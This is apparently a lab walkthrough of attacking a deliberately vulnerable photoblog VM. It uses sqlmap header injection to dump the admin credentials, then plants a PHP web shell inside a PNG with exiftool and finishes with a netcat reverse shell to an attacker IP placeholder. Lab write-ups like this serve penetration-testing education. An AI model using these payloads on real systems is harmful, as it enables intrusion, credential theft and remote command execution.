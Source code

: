 

# Walkthrough

The first thing to do is to deploy the iso, I used VMWare, and get the ip (using the command __ifconfig__).

## Recon

### Tecnologies used:

```
nmap -sC -sV 192.168.77.128
```
  **Output:**
```
80/tcp open  http    nginx 0.7.67
|_http-server-header: nginx/0.7.67
|_http-title: My Photoblog - latest picture

```

1. NGINX 0.7.67
2. PHP/5.3.3-7+squeeze15


```
HTTP/1.1 200 OK
Server: nginx/0.7.67
Date: Thu, 21 Oct 2021 13:40:51 GMT
Content-Type: text/html
Connection: close
X-Powered-By: PHP/5.3.3-7+squeeze15
Content-Length: 1347

```

## Attack method

### Blind SQLi

I use this website to learn more about the differents usages of **sqlmap**:
https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap

**SQLMap arguments I tried:**
```
$ sqlmap -u "http://192.168.77.128/cat.php?id=*" -p id

$ sqlmap -u "http://192.168.77.128/" --headers "referer:*"

$ sqlmap -u "http://192.168.77.128/" --headers "x-forwarded-for:*"
```

**SQLMAP to find the number of databases and it's names**

```
$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" --dbs --dump-all

[*] information_schema
[*] photoblog

$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" --tables -D photoblog


Database: photoblog

1. Tables: 4
2. Names: categories, pictures, stats, users

Table: users


$ sqlmap -u http://192.168.77.128/ --headers "x-forwarded-for: *" -D photoblog -T users --dump

Database: photoblog
Table: users
[1 entry]
+----+-------+---------------------------------------------+
| id | login | password                                    |
+----+-------+---------------------------------------------+
| 1  | admin | 8efe310f9ab3efeae8d410a8e0166eb2 (P4ssw0rd) |
+----+-------+---------------------------------------------+
```
**Now that we have the username and the password, we can log in as admin.**
**After some recon we are able to note only one point to explore, and gain a reverse shell: upload images feature.**


### Upload png file with php backdoor

**Things I try without success:**

1. Bypass uploads rules by intercepting the request and change the content-type to __image/jpeg__ 
(https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

2. Rename the image from file.php to file.php.png


## Final method

**First we create a php file with a backdoor inside it:**

```
<?php

if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
``` 

Explanation of the code:

1. First the code checks if there's a cmd parameter in the url;
2. If so, it creates a pre tag on the page to generate retrieve the information withou breaking it, keeping the breaks and the spaces.
3. Assigns the content of the parameter **cmd** to the variable **cmd**
4. System() is for executing a system command on the server and immediately displaying the output.
5. Kill the script


**Using exiftool we are going to add a comment with our payload o the image**

```
exiftool exiftool "-comment<=file.php" backdoor.png
```

We are now ready to upload our backdoor and generate a reverse shell.


## Now you can upload the file. After the upload you can trigger the backdoor using:

```
(...).png/cmd.php?cmd=ls
```

__We need to add cmd.php, otherwise the photo is displayed instead of the code we want__

To create a reverse shell we use the following code instead of __ls__:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional

```
nc -e /bin/sh <attacker_ip> <nc_listener_port>
```


